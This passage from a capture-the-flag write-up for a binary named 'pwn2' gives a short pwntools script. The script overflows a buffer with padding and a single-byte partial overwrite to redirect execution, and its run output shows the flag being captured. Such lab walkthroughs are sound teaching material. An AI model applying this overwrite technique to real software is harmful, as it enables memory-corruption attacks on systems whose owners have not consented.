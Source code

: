 Putting it all together, we have the following exploit:

```
from pwn import *

# Declare the target
target = process('./pwn2')
#gdb.attach(target, gdbscript='pie b *0x7bc')

# Make and send the payload
payload = "0"*0x1e + "\xd8"
target.sendline(payload)

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './pwn2': pid 11453
[*] Switching to interactive mode
Which function would you like to call?
This function is still under development.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
```

Just like that, we got the flag!